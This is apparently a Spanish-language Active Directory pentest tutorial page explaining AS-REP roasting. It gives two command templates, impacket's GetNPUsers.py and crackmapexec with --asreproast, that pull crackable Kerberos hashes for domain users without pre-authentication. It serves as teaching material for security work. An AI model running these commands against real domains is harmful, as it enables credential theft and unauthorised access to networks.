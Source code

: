 # Obteniendo ASEREPROastable users hash

```Bash
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py <nombre dominio completo>/ -no-pass -usersfile <txt de lista de usuarios>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/vid.gif?raw=true "hash ASREP con GetNPUsers")

```Bash
poetry run crackmapexec ldap <direccion ip> -u <txt de lista de usuarios> -p '' --asreproast <output.txt>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASREPRoast/vid2.gif?raw=true "hash ASREP con Crackmapexec")
